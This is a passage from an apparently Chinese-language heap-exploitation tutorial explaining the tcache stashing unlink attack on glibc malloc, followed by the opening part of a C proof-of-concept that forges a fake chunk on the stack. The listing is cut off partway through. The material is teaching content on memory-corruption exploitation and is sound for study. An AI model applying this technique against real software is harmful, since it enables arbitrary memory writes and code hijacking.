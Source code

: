 # 前言
这一小节我们来看tcache_stashing_unlink_attack这种攻击方式，这种攻击方式的原理仍然是对smallbin中free chunk的bk指针进行修改（和上一节的house of lore原理相同），但是此种方式需要calloc函数

# 影响版本
具有或开启tcache机制的glibc malloc

# POC
## POC源码
```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main(){
    unsigned long stack_var[0x10] = {0};
    unsigned long *chunk_lis[0x10] = {0};
    unsigned long *target;

    setbuf(stdout, NULL);

    printf("This file demonstrates the stashing unlink attack on tcache.\n\n");
    printf("This poc has been tested on both glibc 2.27 and glibc 2.29.\n\n");
    printf("This technique can be used when you are able to overwrite the victim->bk pointer. Besides, it's necessary to alloc a chunk with calloc at least once. Last not least, we need a writable address to bypass check in glibc\n\n");
    printf("The mechanism of putting smallbin into tcache in glibc gives us a chance to launch the attack.\n\n");
    printf("This technique allows us to write a libc addr to wherever we want and create a fake chunk wherever we need. In this case we'll create the chunk on the stack.\n\n");

    // stack_var emulate the fake_chunk we want to alloc to
    printf("Stack_var emulates the fake chunk we want to alloc to.\n\n");
    printf("First let's write a writeable address to fake_chunk->bk to bypass bck->fd = bin in glibc. Here we choose the address of stack_var[2] as the fake bk. Later we can see *(fake_chunk->bk + 0x10) which is stack_var[4] will be a libc addr after attack.\n\n");

    stack_var[3] = (unsigned long)(&stack_var[2]);

    printf("You can see the value of fake_chunk->bk is:%p\n\n",(void*)stack_var[3]);
    printf("Also, let's see the initial value of stack_var[4]:%p\n\n",(void*)stack_var[4]);
    printf("Now we alloc 9 chunks with malloc.\n\n");

    //now we malloc 9 chunks
    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }

    //put 7 chunks into tcache
    printf("Then we free 7 of them in order to put them into tcache. Carefully we didn't free a serial of chunks like chunk2 to chunk9, because an unsorted bin next to another will be merged into one after another malloc.\n\n");

    for(int i = 3;i < 9;i++){
        free(chunk_lis[i]);
    }

    printf("As you can see, chunk1 & [chunk3,chunk8] are put into tcache bins while chunk0 and chunk2 will be put into unsorted bin.\n\n");
```
